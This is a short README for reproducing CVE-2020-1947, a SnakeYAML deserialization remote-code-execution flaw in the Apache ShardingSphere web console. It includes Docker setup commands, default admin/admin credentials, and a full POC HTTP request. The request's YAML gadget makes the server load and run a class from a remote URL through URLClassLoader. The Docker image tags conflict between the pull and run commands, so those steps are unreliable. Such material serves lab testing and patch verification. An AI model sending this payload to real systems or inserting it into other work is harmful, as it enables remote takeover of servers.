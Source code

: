 ﻿# CVE-2020-1947

## Description

In Apache ShardingSphere(incubator) 4.0.0-RC3 and 4.0.0, the 
ShardingSphere's web console uses the SnakeYAML library for parsing YAML
 inputs to load datasource configuration. SnakeYAML allows to unmarshal 
data to a Java type By using the YAML tag. Unmarshalling untrusted data 
can lead to security flaws of RCE.

| Item           | Value                 | Remark    |
| -------------- | --------------------- | --------- |
| Risk Level     | HIGH                  |           |
| Attack Type    | Remote Code Execution |           |
| Attack Postion | Request Body          |           |
| Principle      |                       | SnakeYAML |

## Environment

`centos`:7.8.2003 + `jdk`:8u261 +  `shardingsphere`:4.0.0 + `zookeeper`:3.6.2

```bash
# downlaod docker(include php-fpm and nginx)
docker pull lubinlew/cve-2020-1947

# run the docker
docker run -d -p 40080:80 --name cve-2020-1947 lubinlew/cve-2019-1947:latest
```

## Reappear

### login in shardingsphere

admin/admin

### Add a registry

![add-a-registry](_resources/images/CVE-2020-1947_add-registry.png)
![connect-registry](_resources/images/CVE-2020-1947_connect-registry.png)

### POC
```bash
POST /api/schema HTTP/1.1
Host: 10.130.12.127:8088
Content-Length: 282
Accept: application/json, text/plain, */*
Access-Token: YOUR-TOKEN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://10.130.12.127:8088
Referer: http://10.130.12.127:8088/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"name":"test schema","ruleConfiguration":"name: 1\nmasterDataSourceName: 2\nslaveDataSourceNames: [1,2,3]\nloadBalanceAlgorithmType: 4\n","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8000/\"]]]]"}
```

## References

[[CVE-2020-1947]Apache ShardingSphere UI YAML RCE](https://www.freesion.com/article/5095402881/)

[CVE-2020-1947 Sharding-UI的反序列化复现及分析 ](https://www.cnblogs.com/potatsoSec/p/12461330.html)
